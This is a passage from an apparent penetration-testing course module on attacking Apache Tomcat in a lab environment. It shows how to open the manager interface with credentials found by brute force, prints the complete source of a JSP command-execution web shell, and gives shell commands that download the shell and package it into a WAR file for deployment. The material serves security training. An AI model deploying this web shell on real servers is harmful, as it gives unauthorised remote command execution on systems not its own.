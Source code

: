 After performing a brute force attack and answering questions 1 and 2 below, browse to `http://web01.inlanefreight.local:8180/manager/html` and enter the credentials.

![](https://academy.hackthebox.com/storage/modules/113/tomcat\_mgr.png)

The manager web app allows us to instantly deploy new applications by uploading WAR files. A WAR file can be created using the zip utility. A JSP web shell such as [this](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) can be downloaded and placed within the archive.

Code: java

```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```

Attacking Tomcat

```shell-session
AIceBear@htb[/htb]$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
AIceBear@htb[/htb]$ zip -r backup.war cmd.jsp 

  adding: cmd.jsp (deflated 81%)
```
